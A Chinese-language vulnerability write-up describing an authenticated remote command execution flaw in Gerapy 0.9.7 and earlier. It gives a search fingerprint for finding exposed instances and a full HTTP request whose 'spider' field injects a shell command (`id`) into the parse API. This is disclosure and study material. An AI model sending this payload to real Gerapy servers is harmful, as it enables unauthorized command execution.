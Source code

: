 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞 

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132256739.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638185162093-04fc1593-86b0-4c91-b8d3-32ae22fc224d.png)

构造请求包测试命令执行

```python
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638185190368-660687ff-2bb8-4251-8b66-811fca41ca9b.png)